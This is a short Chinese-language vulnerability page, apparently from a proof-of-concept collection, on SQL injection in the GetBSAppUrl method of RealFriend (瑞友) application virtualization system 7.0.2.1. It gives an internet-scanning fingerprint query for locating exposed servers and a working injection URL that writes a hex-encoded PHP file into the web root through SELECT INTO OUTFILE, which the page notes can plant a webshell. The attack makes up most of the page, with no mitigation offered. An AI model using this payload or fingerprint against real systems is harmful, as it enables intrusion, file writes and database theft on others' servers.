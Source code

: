 # 瑞友 应用虚拟化系统 GetBSAppUrl SQL注入漏洞

# 瑞友 应用虚拟化系统 GetBSAppUrl SQL注入漏洞

## 漏洞描述

瑞友 应用虚拟化系统 GetBSAppUrl方法存在SQL注入漏洞，由于参数传入没有进行过滤导致存在SQL注入，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
瑞友应用虚拟化系统 7.0.2.1
```

## 网络测绘

```
"CASMain.XGI?cmd=GetDirApp" && title=="瑞友应用虚拟化系统"
```

## 漏洞复现

登陆页面

![image-20230417100516425](images/image-20230417100516425.png)

在 GetBSAppUrl 方法中存在SQL注入漏洞，通过漏洞可以写入Webshell文件

![image-20230417100529493](images/image-20230417100529493.png)

验证POC

```
/index.php?s=/Agent/GetBSAppUrl/AppID/')%3bselect+0x3c3f70687020706870696e666f28293b3f3e+into+outfile+%27C%3a\\Program+Files+(x86)\\RealFriend\\Rap+Server\\WebRoot\\test7.php%27%23/123
```

![image-20230417100544162](images/image-20230417100544162.png)

```
/test7.php
```

![image-20230417100554583](images/image-20230417100554583.png)

